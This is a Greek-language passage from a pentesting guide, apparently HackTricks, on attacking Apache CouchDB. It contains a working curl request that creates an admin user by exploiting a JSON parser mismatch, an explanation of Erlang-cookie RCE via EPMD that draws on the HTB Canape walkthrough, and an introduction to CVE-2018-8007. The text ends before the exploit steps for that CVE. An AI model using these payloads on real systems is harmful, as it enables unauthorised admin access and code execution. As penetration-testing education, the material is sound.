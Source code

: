 Χάρη στις διαφορές μεταξύ των αναλυτών JSON της Erlang και της JavaScript, μπορείτε να **δημιουργήσετε έναν διαχειριστή χρήστη** με διαπιστευτήρια `hacktricks:hacktricks` με το ακόλουθο αίτημα:
```bash
curl -X PUT -d '{"type":"user","name":"hacktricks","roles":["_admin"],"roles":[],"password":"hacktricks"}' localhost:5984/_users/org.couchdb.user:hacktricks -H "Content-Type:application/json"
```
[**Περισσότερες πληροφορίες για αυτήν την ευπάθεια εδώ**](https://justi.cz/security/2017/11/14/couchdb-rce-npm.html).

## CouchDB RCE

### **Επισκόπηση Ασφάλειας Μπισκότου Erlang**

Παράδειγμα [από εδώ](https://0xdf.gitlab.io/2018/09/15/htb-canape.html).

Στην τεκμηρίωση του CouchDB, ειδικότερα στην ενότητα που αφορά τη ρύθμιση του cluster ([σύνδεσμος](http://docs.couchdb.org/en/stable/cluster/setup.html#cluster-setup)), συζητείται η χρήση θυρών από το CouchDB σε κατάσταση cluster. Αναφέρεται ότι, όπως και σε αυτόνομη κατάσταση, χρησιμοποιείται η θύρα `5984`. Επιπλέον, η θύρα `5986` είναι για τις τοπικές διεπαφές των κόμβων και, σημαντικότερο, η Erlang απαιτεί την TCP θύρα `4369` για τον Erlang Port Mapper Daemon (EPMD), που διευκολύνει την επικοινωνία των κόμβων σε ένα Erlang cluster. Αυτή η ρύθμιση δημιουργεί ένα δίκτυο όπου κάθε κόμβος συνδέεται με κάθε άλλο κόμβο.

Μια κρίσιμη ασφαλείας ειδοποίηση αναφέρεται για τη θύρα `4369`. Εάν αυτή η θύρα είναι προσβάσιμη μέσω του Διαδικτύου ή οποιουδήποτε μη αξιόπιστου δικτύου, η ασφάλεια του συστήματος εξαρτάται σε μεγάλο βαθμό από ένα μοναδικό αναγνωριστικό που ονομάζεται "μπισκότο" (cookie). Αυτό το μπισκότο λειτουργεί ως προστασία. Για παράδειγμα, σε μια δεδομένη λίστα διεργασιών, μπορεί να παρατηρηθεί το μπισκότο με το όνομα "monster", που υποδηλώνει τον λειτουργικό του ρόλο στο πλαίσιο ασφαλείας του συστήματος.
```
www-data@canape:/$ ps aux | grep couchdb
root        744  0.0  0.0   4240   640 ?        Ss   Sep13   0:00 runsv couchdb
root        811  0.0  0.0   4384   800 ?        S    Sep13   0:00 svlogd -tt /var/log/couchdb
homer       815  0.4  3.4 649348 34524 ?        Sl   Sep13   5:33 /home/homer/bin/../erts-7.3/bin/beam -K true -A 16 -Bd -- -root /home/homer/b
```
Για όσους ενδιαφέρονται να κατανοήσουν πώς αυτό το "cookie" μπορεί να εκμεταλλευτεί για την εκτέλεση απομακρυσμένου κώδικα (RCE) στο πλαίσιο των συστημάτων Erlang, υπάρχει μια αφιερωμένη ενότητα για περαιτέρω ανάγνωση. Αναλύονται οι μεθοδολογίες για την εκμετάλλευση των cookies Erlang με μη εξουσιοδοτημένο τρόπο για την απόκτηση ελέγχου πάνω σε συστήματα. Μπορείτε να **[εξερευνήσετε τον λεπτομερή οδηγό για την κατάχρηση των cookies Erlang για RCE εδώ](4369-pentesting-erlang-port-mapper-daemon-epmd.md#erlang-cookie-rce)**.

### **Εκμεταλλευόμενοι το CVE-2018-8007 μέσω τροποποίησης του local.ini**

Παράδειγμα [από εδώ](https://0xdf.gitlab.io/2018/09/15/htb-canape.html).

Μια πρόσφατα αποκαλυφθείσα ευπάθεια, CVE-2018-8007, που επηρεάζει το Apache CouchDB, εξερευνήθηκε, αποκαλύπτοντας ότι η εκμετάλλευση απαιτεί δικαιώματα εγγραφής στο αρχείο `local.ini`. Παρόλο που δεν είναι άμεσα εφαρμόσιμο στο αρχικό σύστημα στόχο λόγω περιορισμών ασφαλείας, έγιναν τροποποιήσεις για να παραχωρηθεί πρόσβαση εγγραφής στο αρχείο `local.ini` για σκοπούς εξερεύνησης. Παρέχονται λεπτομερείς βήματα και παραδείγματα κώδικα παρακάτω, που δείχνουν τη διαδικασία.
